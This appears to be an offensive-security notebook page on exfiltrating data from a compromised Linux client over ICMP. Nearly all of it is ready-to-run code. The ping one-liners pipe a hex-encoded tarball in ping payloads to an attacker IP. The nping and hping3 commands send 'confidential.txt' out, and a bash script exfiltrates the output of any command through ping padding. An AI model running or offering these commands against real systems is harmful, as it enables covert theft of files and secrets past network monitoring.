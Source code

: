 # Client

## 01 - Living off the Land

```
$ tar zcf - file.txt | xxd -p -c 16 | while read line; do ping -p $line -c 1 -q <attacker_IP>; done

$ tar zcf - file.txt | xxd -p -c 4 | while read line; do ping -p $line -c 1 -q <attacker_IP>; done
```

## 02 - Nping

```
$ nping --icmp <attacker_IP> --data-string "file.txt" -c 1
```

## 03 - Hping3

### 3.1 - Sending to Hping3

```
# hping3 -I <interface> -9 <IP> -e MYSIG > confidential.txt
```

The sender

```
# hping3 <attacker_IP> --icmp --sign MSGID1 -d 50 -c 1 --file confidential.txt
```

### 3.2 - Sending to `tcpdump`

We will need a maximum payload size of `1500`.

```
# ip address show eth0 | grep mtu
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
```

Send the file to the attacker's server.

```
# hping3 -1 -E file.txt -u -d 1500 <attacker_IP>
```

Receive the incoming pings with the file.

```
# tcpdump -i eth0 -nX
```

## 04 - Bash Script

```bash
#!/bin/bash

echo "${@:2}"

if [[ -z "$1" ]] || [[ -z "$2" ]];
then
    echo "Usage: $0 <destination> <command>"
    exit 1
fi

DEST=$1
CMD=${@:2}
OUTPUT=$($CMD | xxd -p -c 16)

ORG=$IFS
IFS=$(echo -en "\n\b")

for ROW in ${OUTPUT[@]}
do
    if [[ ${#ROW} = 32 ]]; then
        PAYLOAD=$ROW
    else
        PAD=$(printf "%0$(expr 32 - ${#ROW})d" 0)
        PAYLOAD=$ROW$PAD
    fi
    ping -c 1 -p $PAYLOAD $DEST
done
```

Usage

```
$ chmod +x icmp.sh

$ ./icmp.sh <attacker_IP> file.txt
```

---
## References

### Backlinks

- [[TCPDump]]

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Linux/Network Protocols/ICMP/Server]]

### Dale Hobbs

- [Dale Hobbs: Data Exfiltration with Hping3](https://www.phoenixinfosec.com/post/data-exfiltration-with-hping3)

### APNIC

- [APNIC: How to Detect and Prevent Common Data Exfiltration Attacks](https://blog.apnic.net/2022/03/31/how-to-detect-and-prevent-common-data-exfiltration-attacks/)